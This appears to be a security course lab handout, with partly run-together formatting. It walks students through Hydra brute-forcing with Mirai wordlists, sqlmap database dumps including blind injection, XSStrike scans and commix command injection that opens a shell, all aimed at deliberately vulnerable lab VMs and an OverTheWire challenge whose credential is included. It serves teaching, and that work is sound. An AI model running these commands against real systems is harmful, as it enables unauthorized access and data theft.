


On the Kali VM, find the Mirai username and password lists within the /usr/share/wordlists/metasploit directory.
Then, use Hydra to automatically search for the credentials of the Authentication #1 level of WFP2.
-e s setting to check for usernames that are also passwords for an account-L <mirai_username_file> to specify a file of usernames-P <mirai_password_file> to specify a file of passwordshttp-get://<wfp2_internal_IP>/authentication/example1 where wfp2_internal_IP where has the form of 10.x.y.z hydra -e s -L <mirai_username_file> -P <mirai_password_file> \
http-get://<wfp2_internal_IP>/authentication/example1Re-run command using the -V flag to see the list of credentials checked
sqlmap is an industry standard tool for automatically discovering and exploiting SQL injection vulnerabilities. We will be using some of the common functionality it provides to compromise vulnerable applications. A useful guide to the tool can be found in this cheat sheet.
sqlmap on first SQL injection example on the WFP1 VM via wfp1_internal_IP (in the form of 10.x.y.z).sqlmap -u 'http://<wfp1_internal_IP>/sqli/example1.php?name=root' --batch --dbms mysql --dump
In this exercise, spaces are removed. One can use built-in tamper scripts in sqlmap to substitute other white space characters such as tab or newline. In addition, sqlmap can dump the entire database using blind injection with a time-based metric.
space2randomblanksqlmap -u 'http://<wfp1_internal_IP>/sqli/example2.php?name=root' --dbms mysql --dump --tamper=space2randomblank
natas15 Blind SQL InjectionIn this exercise, the server code below queries the backend database table to determine if a user exists. Unfortunately, it is injectable. While it will not give out any contents of the database directly, it is vulnerable to a blind attack.

One can write a Python program (as you did in Program #2) to find the password for natas16 and as described in the course slides. However, sqlmap can perform the attack automatically for you.
Solve this level via sqlmap by issuing the following
sqlmap -u 'http://natas15.natas.labs.overthewire.org' --auth-type basic --auth-cred natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB --data username=foo --dbms mysql --dump --level 2 --batch --time-sec 1
The meaning of the flags is as follows:
--auth-type', '--auth-cred': Lets sqlmap log into the challenge via Basic-Auth--data': Tells sqlmap that you want it to try to inject into the POST parameter username.--dbms': For efficiency, tell sqlmap the backend.--dump': Dump the all the information in all tables.--level': Setting this above 1 (max 5) tells sqlmap to try more attack-types and payloads. The payload we need isn't included at level 1, so we'll set this to 2.--batch': Tells sqlmap not to prompt us with questions, and just use the default behavior.--time-sec': Sleep time to inject when doing timing-based attacks. You might need to raise this if your connection to the natas server is overloaded.XSStrike is a tool that discovers sites that are vulnerable to cross-site scripting attacks. On the Kali VM, install the tool:
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
virtualenv -p python3 env
source env/bin/activate
pip3 install fuzzywuzzy requestsThen, perform a scan on the XSS URL in the WFP1 VM via wfp1_internal_IP
python3 xsstrike.py -u "http://<wfp1_internal_IP>/xss/example1.php?name=hacker"xsstrike finds that exploits the vulnerability with a high efficiency.Visit the XSS Firing Range at http://public-firing-range.appspot.com/. Within the site are a set of XSS vulnerability categories (e.g. DOM XSS, Reflected XSS, URL-based DOM XSS...). For three different categories, find a URL that XSStrike is able to reveal a vulnerability for (e.g. one with a high efficiency score). Note that some URLs will require a URL-parameter to be set. For example, within the Reflected XSS category, XSStrike finds:

Commix is a tool that discovers sites that are vulnerable to command-line injection. One can either obtain the latest version via Github or use it directly on the Kali VM.
git clone https://github.com/commixproject/commix.gitChange directories into the repository and perform a scan on the command injection URL in the WFP1 VM via wfp1_internal_IP
cd commix
python commix.py --url="http://<wfp1_internal_IP>/commandexec/example1.php?ip=127.0.0.1" --level=1On the Kali VM, run the tool directly against the WFP1 VM via wfp1_internal_IP
commix --url "http://<wfp1_internal_IP>/commandexec/example1.php?ip=127.0.0.1" --level=1Once found, commix will invoke a shell and offer it to you. Say yes to the shell and it will drop you into it.
'ls' and a 'pwd' and show the results in screenshots showing you have obtained access.